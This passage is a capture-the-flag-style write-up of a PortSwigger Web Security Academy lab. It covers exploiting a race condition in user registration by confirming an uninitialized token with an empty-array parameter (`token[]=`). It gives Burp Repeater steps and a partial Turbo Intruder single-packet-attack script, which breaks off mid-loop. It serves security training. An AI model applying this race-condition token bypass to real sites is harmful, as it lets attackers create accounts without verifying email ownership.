 - Consider that there may be a small race window between:
    1. When you submit a request to register a user.
    2. When the newly generated registration token is actually stored in the database.
    if so:
    there may be a temporary sub-state in which `null` (or equivalent) is a valid token for confirming the user's registration.
    
- Experiment with different ways of submitting a token parameter with a value equivalent to `null`. For example, some frameworks let you to pass an empty array as follows:
      `POST /confirm?token[]=`
- Observe that this time, instead of the `Forbidden` response, you receive an `Invalid token: Array` response. This shows that you've successfully passed in an empty array, which could potentially match an uninitialized registration token.

<span style="background:#fff88f">Benchmark the behavior</span>
- Send the `POST /register` request to Burp Repeater.
- In Burp Repeater, experiment with the registration request. Observe that if you attempt to register the same username more than once, you get a different response.
- add in a new Repeater Tab one of the request for `http//id-lab/confirm?token=111`
- Add both requests to a new tab group.
- Try sending both requests sequentially and in parallel several times, making sure to change the username in the registration request each time to avoid hitting the separate `Account already exists with this name` code path
- Notice that the confirmation response consistently arrives much quicker than the response to the registration request.

<span style="background:#fff88f">Prove the concept</span>
- Note that you need the server to begin creating the pending user in the database, then compare the token you send in the confirmation request before the user creation is complete.
    
- Consider that as the confirmation response is always processed much more quickly, you need to delay this so that it falls within the race window.
    
- In the `POST /register` request, highlight the value of the `username` parameter, then right-click and select **Extensions > Turbo Intruder > Send to turbo intruder**.
    
- In Turbo Intruder, in the request editor:
    1. Notice that the value of the `username` parameter is automatically marked as a payload position with the `%s` placeholder.
    2. Make sure the `email` parameter is set to an arbitrary `@ginandjuice.shop` address that is not likely to already be registered on the site.
    3. Make a note of the static value of the `password` parameter. You'll need this later.
- From the drop-down menu, select the `examples/race-single-packet-attack.py` template.
- modify it as:

```python
def queueRequests(target, wordlists):
    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    token_req = '''POST /confirm?token[]= HTTP/2
Host: 0af00066031f355081c12aa9003300e2.web-security-academy.net
Cookie: phpsessionid=YFhKchBaduOcwCI0CamIB8snOT38H3bW
Content-Length: 0

'''
    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
    for i in range(20):
        username = "dog" + str(i)
        engine.queue(target.req, username, gate=str(i))

        for j in range(50):
```